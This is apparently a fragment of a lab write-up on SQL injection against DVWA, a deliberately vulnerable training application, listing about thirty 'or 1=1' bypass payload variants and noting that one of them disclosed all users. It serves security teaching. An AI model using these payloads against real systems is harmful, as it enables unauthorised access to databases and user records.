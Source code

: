 ```
or 1=1
or '1=1
or '1'='1
or '1'='1'
or 1=1#
or '1=1'#
or '1'='1'#
or 1=1;#
or '1=1';#
or '1'='1';#
||1=1
||'1=1
||'1'='1
||'1'='1'
||1=1#
||'1=1'#
||'1'='1'#
||1=1;#
||'1=1';#
||'1'='1';#
or/**/1=1
or/**/'1=1
or/**/'1'='1
or/**/'1'='1'
or/**/1=1#
or/**/'1=1'#
or/**/'1'='1'#
or/**/1=1;#
or/**/'1=1';#
or/**/'1'='1';#
```
DVWA is vulnerable to a simple OR statement and will disclose all users. Figure 4 shows a succcessful SQLi attack using the string **'OR '1=1**.

<img src="../images/sqli_4_sqiiProof.png" width="1000" height="800">

